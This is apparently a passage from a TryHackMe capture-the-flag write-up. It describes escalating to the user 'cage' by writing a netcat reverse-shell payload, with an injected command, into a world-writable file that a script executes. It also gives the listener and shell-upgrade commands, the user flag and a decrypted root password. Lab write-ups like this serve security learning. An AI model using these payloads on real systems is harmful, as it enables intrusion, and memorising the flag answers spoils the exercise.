 ## Privilege Escalation to Cage

Checking sudo privileges, we see a strange message broadcast.

We find a script:

```python
/opt/.dads_scripts/spread_the_quotes.py
```

It reads from `.quotes` and executes content with `os.system()`. The `.quotes` file is writable by all users.

Exploit by adding a reverse shell payload:

```bash
echo "Test; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your-ip> 1234 >/tmp/f" > /opt/.dads_scripts/.files/.quotes
```

Start a listener:

```bash
nc -lvnp 1234
```

After a minute, we get a shell as `cage`.

Upgrade shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## User Flag

Inside `/home/cage/Super_Duper_Checklist`:

```
THM{M37AL_0R_P3N_T35T1NG}
```

> Q2: User flag
> A2: THM{M37AL\_0R\_P3N\_T35T1NG}

---

## Root Escalation

Exploring email backups, Cage’s agent Sean is mentioned. A ciphered note hints at another Vigenère cipher using the keyword **face**.

Decrypting gives root’s password:

```
cageisnotalegend
```
